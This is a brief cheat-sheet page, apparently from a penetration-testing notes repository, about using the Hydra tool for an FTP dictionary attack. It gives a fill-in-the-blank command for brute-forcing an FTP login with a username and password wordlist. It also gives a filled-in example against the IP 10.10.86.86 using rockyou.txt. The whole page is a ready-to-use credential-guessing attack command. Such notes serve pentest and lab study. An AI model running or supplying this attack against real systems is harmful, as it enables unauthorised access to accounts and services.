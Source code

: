 # Hydra - FTP

*********************************************************************************
Items inside [SQUARE-BRACKETS] indicate changeable (fill in the blank) fields.  
Note: Bracket characters themselves [ ] require removal. See examples.
*********************************************************************************

### FTP Dictinary Attack:
```
hydra -l [USERNAME] -P [WORDLIST-PATH] ftp://[TARGET-IP]
```
Example:
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt ftp://10.10.86.86
```

